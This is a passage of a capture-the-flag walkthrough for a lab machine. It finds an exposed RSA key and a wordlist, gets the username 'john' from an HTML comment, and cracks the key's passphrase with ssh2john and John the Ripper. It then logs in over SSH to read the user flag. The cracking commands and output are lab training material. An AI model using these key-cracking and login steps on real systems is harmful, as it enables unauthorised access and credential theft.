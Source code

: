 there are many sefl directories...`uploads` got us files

`dict.lst` is obviously a dictionnary for cracking

`meme.jpg` is...well a meme

`manifesto.txt` is a mad long text...and I read it...and damn it's full of...things people may relate to

well...Its a manifesto

And in the `/secret` dir we get a rsa key 

First I want to get steganography out of the way...and yes there was nothing there

Do you people remember how we always insist on checking source code?

```
</body>
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
</html>
```
Now we know `john`

ok we can try to ssh now...

```
└──╼ $chmod 600 secretKey

└──╼ $ssh john@10.10.89.54 -i secretKey
Enter passphrase for key 'secretKey':

```

Who didn't expect that? why would they give you a dictionary bro?

```
└──╼ $python2 /usr/share/john/ssh2john.py secretKey > secretkey.john

└──╼ $john secretkey.john -w=dict.lst
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
1g 0:00:00:01 DONE (2021-12-02 13:26) 0.9345g/s 208.4p/s 208.4c/s 208.4C/s baseball
Session completed
```

Try again now and you got your user flag 

```
john@exploitable:~$ cat user.txt
level_one_flag
```
